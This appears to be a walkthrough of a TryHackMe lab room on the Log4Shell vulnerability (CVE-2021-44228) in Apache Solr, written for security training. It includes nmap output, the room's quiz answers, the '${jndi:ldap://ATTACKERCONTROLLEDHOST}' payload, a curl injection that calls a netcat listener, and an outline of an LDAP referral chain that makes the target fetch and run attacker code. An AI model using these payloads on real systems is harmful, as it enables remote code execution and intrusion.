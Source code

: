 #FreeRoom #log4j 

https://tryhackme.com/room/solar

## Apache Log4j remote code execution 

On December 9th, 2021, the world was made aware of a new vulnerability identified as CVE-2021-44228, affecting the Java logging package `log4j`. This vulnerability earned a severity score of 10.0 (the most critical designation) and offers remote code trivial remote code execution on hosts engaging with software that utilizes this `log4j` version. This attack has been dubbed "Log4Shell"

Today, `log4j` version `2.16.0` is available and patches this vulnerability (JNDI is fully disabled, support for Message Lookups is removed, and the new DoS vulnerability CVE-2021-45046 is not present). [https://github.com/apache/logging-log4j2/releases/tag/rel%2F2.16.0]

However, the sheer danger of this vulnerability is due to how ubiquitous the logging package is. Millions of applications as well as software providers use this package as a dependency in their own code. While you may be able to patch your own codebase using `log4j`, other vendors and manufacturers will still need to push their own security updates downstream. Many security researchers have likened this vulnerability to that of [https://en.wikipedia.org/wiki/Shellshock_(software_bug)]  by the nature of its enormous attack surface. We will see this vulnerability for years to come.

For a growing community-supported list of software and services vulnerable to CVE-2021-44228, check out this GitHub repository:

This room will showcase how you can test for, exploit, and mitigate this vulnerability within Log4j. While there are a number of other articles, blogs, resources and learning material surrounding CVE-2021-44228, I (the author of this exercise) am particularly partial to these: 
- [https://github.com/YfryTchsGD/Log4jAttackSurface]
- [https://www.huntress.com/blog/rapid-response-critical-rce-vulnerability-is-affecting-java] 
- [https://log4shell.huntress.com/]
- [https://www.youtube.com/watch?v=7qoPDq41xhQ]
- 

## reconnaissance 

The target virtual machine includes software that utilizes this vulnerable `log4j` package, offering you a playground to explore the vulnerability.

```
nmap -v 10.10.210.147

PORT    STATE SERVICE
22/tcp  open  ssh
111/tcp open  rpcbind
MAC Address: 02:BD:61:D4:B0:99 (Unknown)

nmap -v -p- 10.10.210.147

PORT     STATE SERVICE
22/tcp   open  ssh
111/tcp  open  rpcbind
8983/tcp open  unknown

10.10.210.147:8983

http://10.10.210.147:8983/solr/#/

Apache Solr

```


## discovery 

This target machine is running Apache Solr 8.11.0, one example of software that is known to include this vulnerable `log4j` package. For the sake of showcasing this vulnerability, the application runs on Java 1.8.0_181.

Explore the web interface accessible at `http://10.10.210.147:8983`
and click around to get a feel for the application. For more detail on Apache Solr, please refer to their official website. [https://solr.apache.org/](https://solr.apache.org/)

This instance of Apache Solr is provisioned with no data whatsoever. It is a flat, vanilla, and absolutely minimum installation -- yet at its core it is still vulnerable to this CVE-2021-44228.

```
INFO (qtp1083962448-20)[] ... path=/admin/cores params={}

Take a close look at the first page visible when navigating to [http://10.10.210.147:8983]. You should be able to see clear indicators that log4j is in use within the application for logging activity. What is the `-Dsolr.log.dir` argument set to, displayed on the front page?

/var/solr/logs


Download the attached files (accessible in the top-right of this task) see some _example_ log files within Solr. Explore each file, if just to get a feel for what is displayed in what log. 

One file has a significant number of `INFO` entries showing repeated requests to one specific URL endpoint. Which file includes contains this repeated entry? (Just the filename itself, no path needed)

solr.log

What "path" or URL endpoint is indicated in these repeated entries?

/admin/cores


Viewing these log entries, what field name indicates some data entrypoint that you as a user could control? (Just the field name)


params

```


## proof of concept

Note that the URL endpoint that you have just uncovered needs to be prefaced with the `solr/` prefix when viewing it from the web interface. This means that you should visit:

`http://10.10.210.147:8983/solr/admin/cores`

You also noticed that `params` seems to be included in the log file. At this point, you may already be beginning to see the attack vector.

The log4j package adds extra logic to logs by "parsing" entries, ultimately to enrich the data -- but may additionally take actions and even evaluate code based off the entry data. This is the gist of CVE-2021-44228. Other syntax might be in fact _executed_ just as it is entered into log files.

```
examples of this syntax are:

${sys:os.name}
${sys:user.name}
${log4j:configParentLocation}
${ENV:PATH}
${ENV:HOSTNAME}
${java:version}

You may already know the general payload to abuse this log4j vulnerability.

${jndi:ldap://ATTACKERCONTROLLEDHOST}
```

This syntax indicates that the log4j will invoke functionality from "JNDI", or the "Java Naming and Directory Interface." Ultimately, this can be used to access external resources, or "references," which is what is weaponized in this attack. 

Notice the `ldap://` schema. This indicates that the target will reach out to an endpoint (an attacker controlled location, in the case of this attack) via the LDAP protocol. For the sake of brevity, we will not need to cover all the ins-and-outs and details of LDAP here, but know that this is something we will need to work with as we refine our attack.

For now, know that the target will in fact make a connection to an external location. This is indicated by the `ATTACKERCONTROLLEDHOST` placeholder in the above syntax. You, acting as the attacker in this scenario, can host a simple listener to view this connection.

The next question is, where could we enter this syntax?
Anywhere that has data logged by the application.

This is the crux of this vulnerability. Unfortunately, it is very hard to determine where the attack surface is for different applications, and ergo, _what_ applications are in fact vulnerable. Simply seeing the presence of log4j files doesn't clue in on the exact version number, or even where or how the application might use the package.

Think back to the previous task. You already discovered that you could supply `params` to the `/solr/admin/cores` URL, and now that you have a better understanding of how log4j works, you should understand that _this_ is where you supply your inject syntax. You can simply supply HTTP GET variables or parameters which will then processed and parsed by log4j. All it takes is this single line of text -- and that makes this vulnerability extremely easy to exploit.

Other locations you might supply this JNDI syntax:

- Input boxes, user and password login forms, data entry points within applications
- HTTP headers such as `User-Agent`, `X-Forwarded-For`, or other customizable headers
- Any place for user-supplied data

If you would like more information on this JNDI attack vector, please review this Black Hat USA presentation from 2016.

[https://www.blackhat.com/docs/us-16/materials/us-16-Munoz-A-Journey-From-JNDI-LDAP-Manipulation-To-RCE.pdf] 

```
ip addr show
	inet 10.10.107.30
nc -vnlp 9999

curl 'http://10.10.115.88:8983/solr/admin/cores?foo=$\{jndi:ldap://10.10.107.30:9999\}'

`Connection received from 10.10.115.88`


```


## exploitation 

At this point, you have verified the target is in fact vulnerable by seeing this connection caught in your `netcat` listener. However, it made an LDAP request... so all your `netcat` listener may have seen was non-printable characters (strange looking bytes). We can now build upon this foundation to respond with a real LDAP handler.

We will utilize a open-source and public utility to stage an "LDAP Referral Server". This will be used to essentially redirect the initial request of the victim to another location, where you can host a secondary payload that will ultimately run code on the target. This breaks down like so:

```
1. ${jndi:ldap://attackerserver:1389/Resource} -> reaches out to our LDAP Referral Server
2. LDAP Referral Server springboards the request to a secondary http://attackerserver/resource
3. The victim retrieves and executes the code present in http://attackerserver/resource

This means we will need an HTTP server, which we could simply host with any of the following options (serving on port 8000):

- python3 -m http.server
- php -S 0.0.0.0:8000
- (or any other `busybox httpd` or formal web service you might like)
```

If you get stuck on any of the following steps, we have a video showcasing (using the AttackBox) each step to gain remote code execution: [https://youtu.be/OJRqyCHheRE] 









https://medium.com/@ERBATMAN/tryhackme-solar-exploiting-log4j-333a9e4e403c














































